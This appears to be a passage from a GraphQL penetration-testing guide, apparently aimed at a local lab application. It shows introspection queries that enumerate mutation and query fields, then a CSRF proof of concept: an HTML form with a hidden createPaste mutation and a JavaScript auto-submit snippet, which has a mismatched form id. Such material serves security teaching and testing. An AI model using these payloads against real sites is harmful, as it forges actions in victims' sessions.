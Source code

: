 The introspection query shown in should return the mutation fields that exist in a schema

{% code overflow="wrap" %}
```graphql
# Introspection query to extract mutation field names
query {
    __schema {
        mutationType {
            fields {
                name
            }
        }
    }
}
--------------------------------
# Introspection query to extract query field names
query {
    __schema {
        queryType {
            fields {
                name
            }
        }
    }
}
```
{% endcode %}

#### **Testing for POST-Based Vulnerabilities**

* A crafted HTML form can be used to perform a POST-based CSRF attack.
* A hidden input tag ensures the form remains invisible to the victim.

{% code overflow="wrap" %}
```html
<html>
<h1>Click the button below to see the proof of concept!</h1>
    <body>
        <form id="auto_submit_form" method="POST" action="http://localhost:5013/graphql">
            <input type="hidden" name="query" value="mutation { createPaste(title:&quot;CSRF&quot;,content:&quot;content&quot;,public:true, burn: false) { paste { id content title burn }}}"/>
            <input type="submit" value="Submit">
        </form>
    </body>
<html>
------------------------------------
//  Automatic form submission with JavaScript
async function csrf() {
    for (let i = 0; i < 2; i++) {
    await sleep(i * 1000);
    }
    document.forms['auto_submit_for'].submit();
}
```
{% endcode %}
